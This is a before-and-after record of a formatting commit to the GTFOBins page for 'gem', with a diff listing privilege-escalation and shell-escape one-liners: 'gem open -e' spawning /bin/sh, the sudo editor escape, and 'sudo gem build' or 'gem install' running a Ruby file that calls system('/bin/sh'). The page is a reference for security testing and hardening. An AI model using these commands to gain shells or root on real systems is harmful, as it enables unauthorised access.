

Before and after one commit to GTFOBins/GTFOBins.github.io, a Jekyll site: the page built from _gtfobins/gem.md, in a window 1280 px wide. Shown: the whole page at 87% size. Built offline with Jekyll 4.4.1, drawn with Linux system fonts in a browser that asks for light colours; after the commit the page ends 1091 px from its top, so only the background shows below that.

Commit message:
Update gem.md

```diff
--- a/_gtfobins/gem.md
+++ b/_gtfobins/gem.md
@@ -2,23 +2,21 @@
 functions:
   shell:
     - description: This spawns an interactive shell. Requires the name of an installed gem to be provided (`json` is usually installed).
-      code: |
-        gem open -e "/bin/sh -c /bin/sh" json
+      code: gem open -e "/bin/sh -c /bin/sh" json
   sudo:
     - description: This invokes the default editor, which is likely to be [`vi`](/gtfobins/vi/). Requires the name of an installed gem to be provided (`json` is usually installed).
       code: |
         sudo gem open json
         :!/bin/sh
     - description: This executes an arbitrary command as the gem editor. Requires the name of an installed gem to be provided (`json` is usually installed).
-    - code: |
-        sudo gem open -e "/bin/sh -c /bin/sh" json
+      code: sudo gem open -e "/bin/sh -c /bin/sh" json
     - description: This executes the specified file as [`ruby`](/gtfobins/ruby/) code.
-    - code: |
+      code: |
         TF=$(mktemp -d)
         echo 'system("/bin/sh")' > $TF/x
         sudo gem build $TF/x
     - description: This executes the specified file as [`ruby`](/gtfobins/ruby/) code.
-    - code: |
+      code: |
         TF=$(mktemp -d)
         echo 'system("/bin/sh")' > $TF/x
         sudo gem install --file $TF/x
```
